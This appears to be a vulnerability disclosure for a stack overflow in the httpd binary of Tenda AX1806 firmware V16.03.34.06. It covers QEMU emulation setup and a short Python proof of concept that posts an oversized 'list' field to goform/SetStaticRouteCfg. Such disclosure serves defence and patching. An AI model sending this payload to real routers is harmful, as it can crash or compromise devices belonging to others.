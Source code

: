 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`

![](api/attachments/IoLy6CdpzI9r/image/image.png)

Stack overflow point：

![](api/attachments/xpoWV2Y2vGZL/image/image.png)

### PoC

```text-plain
import requests

data = {
    b"list": b'A'*0x400+b',A,A,A'
}
res = requests.post("http://ip/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![](api/attachments/EEwOxMTQCYCi/image/image.png)